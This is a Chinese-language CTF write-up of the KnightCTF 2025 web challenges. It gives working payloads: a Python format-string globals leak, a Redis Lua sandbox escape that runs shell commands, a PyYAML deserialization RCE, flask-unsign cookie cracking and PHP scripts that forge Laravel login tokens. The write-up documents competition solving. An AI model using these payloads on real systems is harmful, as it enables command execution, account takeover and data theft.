+++
title = "KnightCTF2025(AK)"
slug = "knightctf2025-ak"
description = "第一次把自己打爽的国际赛"
date = "2025-01-21T19:45:29"
lastmod = "2025-01-21T19:45:29"
image = ""
license = ""
categories = ["赛题"]
tags = ["yaml", "jail", "php"]
+++

这次我们SU，AK了所有题目，并列第一嘿嘿，web下午就给打完了



## Knight's Secret

> Welcome to the Knight's Secret!
> The castle's vault holds a secret key, protected within the CONFIG dictionary.
> You are a knight tasked with proving the strength of the vault's defenses.
> To succeed, you must craft an input to reveal the hidden key within the system.
> You will be provided with a user object representing a knight, with attributes 'name' and 'role'.
> Once you discover the key, input it again to receive the banner of victory.
>
> Example of a safe template: 'Greetings, {person_obj.name}, the {person_obj.role}.'
> Type 'hint' if you need guidance or 'exit' to withdraw from the quest.

输入`hint`得到了

```
Hint: The knight object provides insight into the realm, and the vault's secrets are hidden in the program's structure. Look for ways to explore more than what is visible.
```

就输入题目里面说的poc，发现用处不大

```
Enter your secret: {person_obj.role}
Output: Defender of the Realm

Enter your secret: {person_obj.name}
Output: Brave Knight
```

然后问人机又得到了这个

```
Enter your secret: Greetings, {person_obj.name}, the {person_obj.role}.
Output: Greetings, Brave Knight, the Defender of the Realm.

Enter your secret: {person_obj.name} is the {person_obj.role}.
Output: Brave Knight is the Defender of the Realm.
```

```
{person_obj.__class__.__base__}

{person_obj.__class__.__base__.__subclasses__}

{person_obj.__class__.__base__.__subclasses__()[132]}
```

失败了，好像不准使用`subclasses`，不过想到这里本身就是一个对象了，其实可以直接拿`global`

```
{person_obj.__class__.__init__.__globals__}
```

拿到KEY之后直接在控制台里面输入就有flag了

## KnightCal



看到之后并且RCE发现只能用计算式，那么测试了很久，还是发现没有什么结果，后面队友出了，说的是可以拼接`flag.txt`，那么直接fuzz出来即可

```
7195
```



## Luana

开启了6379端口

```
redis-cli -h 172.105.121.246 -p 6379
```

直接连接之后，查了一下，可以直接执行命令

```
172.105.121.246:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0
redis_build_id:636cde3b5c7a3923
redis_mode:standalone
os:Linux 6.8.0-51-generic x86_64
arch_bits:64
multiplexing_api:epoll
atomicvar_api:atomic-builtin
gcc_version:9.2.1
process_id:7
run_id:361f148ef3b5211f4c3771965b15102ffeddcaaf
tcp_port:6379
uptime_in_seconds:165
uptime_in_days:0
hz:10
configured_hz:10
lru_clock:9388065
executable:/tmp/redis-server
config_file:/etc/redis/redis.conf

# Clients
connected_clients:9
client_recent_max_input_buffer:2
client_recent_max_output_buffer:0
blocked_clients:0

# Memory
used_memory:1027648
used_memory_human:1003.56K
used_memory_rss:7700480
used_memory_rss_human:7.34M
used_memory_peak:5002392
used_memory_peak_human:4.77M
used_memory_peak_perc:20.54%
used_memory_overhead:981862
used_memory_startup:796200
used_memory_dataset:45786
used_memory_dataset_perc:19.78%
allocator_allocated:1732400
allocator_active:2072576
allocator_resident:10539008
total_system_memory:1008324608
total_system_memory_human:961.61M
used_memory_lua:55296
used_memory_lua_human:54.00K
used_memory_scripts:480
used_memory_scripts_human:480B
number_of_cached_scripts:2
maxmemory:0
maxmemory_human:0B
maxmemory_policy:noeviction
allocator_frag_ratio:1.20
allocator_frag_bytes:340176
allocator_rss_ratio:5.08
allocator_rss_bytes:8466432
rss_overhead_ratio:0.73
rss_overhead_bytes:-2838528
mem_fragmentation_ratio:7.81
mem_fragmentation_bytes:6714872
mem_not_counted_for_evict:0
mem_replication_backlog:0
mem_clients_slaves:0
mem_clients_normal:185070
mem_aof_buffer:0
mem_allocator:jemalloc-5.2.1
active_defrag_running:0
lazyfree_pending_objects:0

# Persistence
loading:0
rdb_changes_since_last_save:3
rdb_bgsave_in_progress:0
rdb_last_save_time:1737441239
rdb_last_bgsave_status:ok
rdb_last_bgsave_time_sec:-1
rdb_current_bgsave_time_sec:-1
rdb_last_cow_size:0
aof_enabled:0
aof_rewrite_in_progress:0
aof_rewrite_scheduled:0
aof_last_rewrite_time_sec:-1
aof_current_rewrite_time_sec:-1
aof_last_bgrewrite_status:ok
aof_last_write_status:ok
aof_last_cow_size:0

# Stats
total_connections_received:28
total_commands_processed:51
instantaneous_ops_per_sec:0
total_net_input_bytes:5866
total_net_output_bytes:100328
instantaneous_input_kbps:0.00
instantaneous_output_kbps:0.00
rejected_connections:0
sync_full:0
sync_partial_ok:0
sync_partial_err:0
expired_keys:0
expired_stale_perc:0.00
expired_time_cap_reached_count:0
evicted_keys:0
keyspace_hits:0
keyspace_misses:0
pubsub_channels:0
pubsub_patterns:0
latest_fork_usec:0
migrate_cached_sockets:0
slave_expires_tracked_keys:0
active_defrag_hits:0
active_defrag_misses:0
active_defrag_key_hits:0
active_defrag_key_misses:0

# Replication
role:master
connected_slaves:0
master_replid:bf6987c2c3a4d884fdb8d9fc8fc909bc36f8534d
master_replid2:0000000000000000000000000000000000000000
master_repl_offset:0
second_repl_offset:-1
repl_backlog_active:0
repl_backlog_size:1048576
repl_backlog_first_byte_offset:0
repl_backlog_histlen:0

# CPU
used_cpu_sys:0.116793
used_cpu_user:0.102646
used_cpu_sys_children:0.002804
used_cpu_user_children:0.000688

# Cluster
cluster_enabled:0

# Keyspace
db0:keys=2,expires=0,avg_ttl=0
```

然后有个版本漏洞

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("cat /f*", "r"); local res = f:read("*a"); f:close(); return res' 0
```

## Baby Injection

查看到有一串base64被打印到了上去，估计是yaml反序列化，后面发现PyYaml <= 5.1,那这不是和das的一模一样吗，直接写个比较简单的

```python
import base64
import requests

poc = f"yaml: !!python/object/new:subprocess.check_output ['ls']"
poc_encoded = base64.b64encode(poc.encode()).decode()

url = f"http://172.105.121.246:5990/{poc_encoded}"
response = requests.get(url)
print(response.text)
# print(poc_encoded)

```

## Admin Access

进去测了很久最后发现在计分板可以得到这个东西

```
.eJyrVopPy0kszkgtVrKKrlZSKAFSSuWJRXmZeelKOkoBOamJxakKOfnpCpl5CiX5ConJyanFxQolGakKKUBtSfmJRSl6SrG1OhToja0FAOhILbY.Z49KFA.Ua3nXdRC0Qb0zeic_9BRbFqENvc


flask-unsign --decode --cookie '.eJyrVopPy0kszkgtVrKKrlZSKAFSSuWJRXmZeelKOkoBOamJxakKOfnpCpl5CiX5ConJyanFxQolGakKKUBtSfmJRSl6SrG1OhToja0FAOhILbY.Z49KFA.Ua3nXdRC0Qb0zeic_9BRbFqENvc'


flask-unsign --unsign --cookie '.eJyrVopPy0kszkgtVrKKrlZSKAFSSuWJRXmZeelKOkoBOamJxakKOfnpCpl5CiX5ConJyanFxQolGakKKUBtSfmJRSl6SrG1OhToja0FAOhILbY.Z49KFA.Ua3nXdRC0Qb0zeic_9BRbFqENvc'
```

但是没啥用，在忘记密码的部分发现了这个东西`kctf2025@knightctf.com `

```
flask-unsign --unsign --cookie '.eJyrVopPy0kszkgtVrKKrlZSKAFSSuWJRXmZeelKOkoBOamJxakKOfnpCpl5CiX5ConJyanFxQolGakKKUBtSfmJRSl6SrG1OhToja0FAOhILbY.Z49KFA.Ua3nXdRC0Qb0zeic_9BRbFqENvc' --wordlist C:\Users\baozhongqi\Desktop\output.txt
```

感觉是session的密码吧结果还是不对，后面直接瞎几把乱测，发现了这个



也就是说猜对了账户

```
kctf2025\kctf2025@knightctf.com 
```

但是密码是不对的，然后去重置密码页面，重置一次之后再慢慢试发现

```
kctf2025\kctf2025
```



## Knight Connect



进去找flag就找到这个东西，然后再看路由，看看啥情况



跟进之后拿到了一些邮箱



然后接着看路由这个邮箱怎么用



跟进这个路由



 Larave只需要邮箱就可以登录，

```php
<?php
$email = "admin"; // 用户邮箱
$time = time(); // 当前时间戳
$data = $email . "|" . $time; // 生成数据字符串
$token = password_hash($data, PASSWORD_BCRYPT); // 生成哈希 token

$url = "https://kctf2025-knightconnect.knightctf.com"; // 基础 URL
$loginLink = $url . "/login-link?token=" . urlencode($token) . 
             "&time=" . $time . 
             "&email=" . urlencode($email); // 生成登录链接

echo $loginLink; // 输出登录链接
?>
```

这里生成登录链接然后我们再去`/contact`拿到管理员邮箱


拿到flag

```php
<?php
$email = "nomanprodhan@knightconnect.com"; // 用户邮箱
$time = time(); // 当前时间戳
$data = $email . "|" . $time; // 生成数据字符串
$token = password_hash($data, PASSWORD_BCRYPT); // 生成哈希 token

$url = "https://kctf2025-knightconnect.knightctf.com"; // 基础 URL
$loginLink = $url . "/login-link?token=" . urlencode($token) .
    "&time=" . $time .
    "&email=" . urlencode($email); // 生成登录链接

echo $loginLink; // 输出登录链接
?>
```

## Exceeding Knight



这个路由进行了重写，然后再找有异常的地方发现是直接给打印环境变量出来了



那么我们就找如何报错即可

```
20000000000000000000
200000000000000000000
Addition
```

